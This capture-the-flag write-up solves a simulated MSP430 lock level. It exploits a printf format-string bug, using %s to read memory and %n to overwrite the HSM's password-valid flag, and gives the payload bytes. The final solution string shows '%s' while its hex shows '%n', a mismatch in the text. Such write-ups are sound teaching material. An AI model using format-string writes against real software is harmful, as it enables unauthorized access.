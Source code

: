 # Addis Ababa (50 points)

### Challenge

```
Lockitall                                            LOCKIT PRO r b.03
______________________________________________________________________

              User Manual: Lockitall LockIT Pro, rev b.03              
______________________________________________________________________


OVERVIEW


    - We have verified passwords can not be too long.
    - Usernames are printed back to the user for verification.
    - This lock is attached the the LockIT Pro HSM-1.


DETAILS

    The LockIT Pro b.03  is the first of a new series  of locks. It is
    controlled by a  MSP430 microcontroller, and is  the most advanced
    MCU-controlled lock available on the  market. The MSP430 is a very
    low-power device which allows the LockIT  Pro to run in almost any
    environment.

    The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
    communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
    be inaccessable from the exterior of the building.

    There  is no  default  password  on the  LockIT  Pro HSM-1.   Upon
    receiving the  LockIT Pro,  a new  password must  be set  by first
    connecting the LockitPRO HSM to  output port two, connecting it to
    the LockIT Pro App, and entering a new password when prompted, and
    then restarting the LockIT Pro using the red button on the back.
    
    LockIT Pro Hardware  Security Module 1 stores  the login password,
    ensuring users  can not access  the password through  other means.
    The LockIT Pro  can send the LockIT Pro HSM-1  a password, and the
    HSM will  return if the password  is correct by setting  a flag in
    memory.
    
    This is Hardware  Version B.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-1 should  be
    connected to port 2.

    This is Software Revision 03. We have improved the security of the
    lock by ensuring passwords can not be too long.
```

### Method

In this challenge, we get a single prompt to enter the username and password like so: `username:password`. This device uses the HSM-1 (Hardware Security Module v1), which receives the password and sets a flag if the password is correct. The firmware interfaces with the HSM via a software interrupt and passes the address to the password and the address to store the result at.

After no success at traditional memory corruption, I reread the overview and this line stood out to me:
```
Usernames are printed back to the user for verification.
```
Sure enough, the firmware now uses `printf` to print the string entered by the user. String format vulnerability! I was a bit rusty exploiting this kind of vuln so I found a nice resource: https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf.

First thing to do was determine the distance between the format string and the address passed to `printf`. Luckily for us, they string copy the user-inputted buffer to the stack for `printf`. How nice of them :blush:
```asm
4476:  814f 0000      mov	r15, 0x0(sp)     <--- address to user string
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>
```
Right before the call to `printf`, the stack looks like this:
```
top
0x307c (contents of r11)
0x0000
0x4142 <-- start of our format string!
0x4344
...
```
Now, let's try to inspect arbitrary memory. We need to place an address on the stack and use the `%s` conversion character to dereference it. Something like `"\x80\x44%x%s"` will do (hex: `80442578257300`). This one prints out the memory at address `0x4480`. The `%x` is to skip the 2 bytes between the top of the stack and the format string.

With this knowledge in hand, there are many ways to solve the challenge, the easiest being to manually set the flag. Using the debugger, the location of the flag is conveniently on the top of the stack at address `0x307a`.
```asm
4472:  b012 b044      call	#0x44b0 <test_password_valid>
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>
4480:  2153           incd	sp
4482:  3f40 0a00      mov	#0xa, r15
4486:  b012 5045      call	#0x4550 <putchar>
448a:  8193 0000      tst	0x0(sp)                <-- test the flag set by the HSM on the stack
448e:  0324           jz	#0x4496 <main+0x5e>    <-- if zero, jump past the next line
4490:  b012 da44      call	#0x44da <unlock_door>
```
Using `%n` we can write to that address, and as long as it's non-zero, our input will exploit and unlock the lock.

Solution: `"\x7a\x30%x%s"` (hex: `7a302578256e00`)

